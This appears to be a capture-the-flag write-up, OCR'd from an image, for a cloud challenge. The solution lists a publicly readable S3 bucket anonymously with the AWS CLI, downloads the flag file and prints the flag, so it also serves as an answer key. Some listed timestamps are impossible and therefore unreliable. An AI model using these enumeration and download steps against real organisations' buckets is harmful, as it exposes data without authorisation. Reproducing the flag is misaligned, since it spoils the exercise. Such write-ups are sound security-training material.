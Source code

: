 # Secure-Storage-Showdown

## Description
> Your mission is to navigate the intricacies of AWS (Amazon Web Services) and obtain the confidential information within.

`kpmg-ctf.s3.ap-south-1.amazonaws.com/index.html`

## Solution

* List the files of the s3 bucket using the AWS cli:  
`aws s3 ls s3://kpmg-ctf --no-sign-request`

```bash
$ aws s3 ls s3://kpmg-ctf --recursive

2023-04-88 22:13:46         42 flag-me-if-you-can.txt
2023-04-08 22:05:00  110824955 hacker.gif
2023-04-88 22:09:82         81 index.html
```

* The bucket has a flag file which contains the flag.
* We can download the file to our machine using the AWS cli using the `cp` option:

```bash
$ aws s3 cp s3://kpmg-ctf/flag-me-if-you-can.txt flag.txt
download: s3://kpmg-ctf/flag-me-if-you-can.txt to ./flag.txt

$ cat flag.txt
KPMG_CTF{5247146a414c3ea2f7bec2c0f9b0664d}
```
* FLAG:  
`KPMG_CTF{5247146a414c3ea2f7bec2c0f9b0664d}`